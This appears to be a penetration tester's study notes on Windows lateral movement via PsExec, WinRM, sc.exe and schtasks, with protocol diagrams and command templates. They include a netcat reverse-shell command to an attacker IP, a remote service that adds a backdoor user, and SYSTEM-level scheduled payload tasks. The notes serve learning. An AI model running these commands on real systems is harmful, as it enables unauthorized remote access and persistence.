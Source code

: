 # PSexec
- Ports: 445/TCP (SMB)
- Group: Administrators
1. Connects to Admin$ Share and uploads a service binary. PSexec uses `psexesvc.exe` 
2. Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle stdin/stdout/stderr.
```mermaid
sequenceDiagram
	participant User
	participant Server
	User->>Server: 1. Upload a service executable
	Server->>User: 2. Create and execute service
	User->>Server: 3. Communication through \.\pipe\psexesvc
```

```powershell
# Sysinternal's PSExec
.\psexec64.exe \\<server> -u <username> -p <password> -i cmd.exe

# Impacket's PSexec
psexec.py <Username>@<server> cmd.exe
```
More about psexec [here](https://www.rapid7.com/blog/post/2013/03/09/psexec-demystified/)
# WinRM
- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Group: Remote Management Users
Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.
- Using CMD:
```cmd
winrs.exe -u:<username> -p:<password> -r:<server> cmd
```
- Using Powershell:
```powershell
# create a credential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# command to connect
Enter-PSSession -Computername TARGET -Credential $credential
```
```powershell
# We can also use Invoke-Command to run script blocks
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```
# Sc
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-  Group: Administrators
Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
```mermaid
sequenceDiagram
	participant Client as Client
	participant EPM as End Point Mapper (PORT 135)
	Client->>EPM: Where is SVCCTL?
	EPM->>Client: SVCCTL is at port 40345
```

```mermaid
sequenceDiagram
	participant Client as Client
	participant svc as SVCCTL (PORT 40345)
	Client->>svc: rpcbind to SVCCTL
```
2. If the above process failes sc with reach SVCCTL via SMB named pipes on port 445 (SMB) or port 135 (SMB over NETBIOS)
```mermaid
sequenceDiagram
	participant Client
	participant SMB
	Client->>SMB: Bind to known pipe \pipe\svcctl [IPC$]
```
```powershell
# Create a service
sc.exe \\<server> create MyService binpath= "net user drdragon Banana79 /add" start= auto

# start the service
sc.exe \\<server> start MyService

# Stop the service
sc.exe \\<server> stop MyService

# Delete the Service
sc.exe \\<server> delete MyService
```
- the `sc.exe` command should be run with `runas.exe /netonly` so that the service is created with the admin's credentials.
```powershell
# Get a reverse shell with leonards's access token.
runas /netonly /user:ZA\admin_leonard.summers "c:\tools\nc64.exe -e cmd.exe <myIP> 4443"

# Can catch with 
nc -nvlp 4443
# now we can schedule tasks with admin's privs
```

# schtasks.exe
- Remotely schedule tasks.
```powershell
# Create a task
schtasks.exe /s <server> /ru "SYSTEM" /create /tn "mytask" /tr "command/payload" /sc ONCE /sd 01/01/1970 /st 00:00

# Run the task
schtasks.exe /s <server> /run /tn "mytask"

# Delete the task
schtasks.exe /s <server> /tn "mytask" /delete /f
```
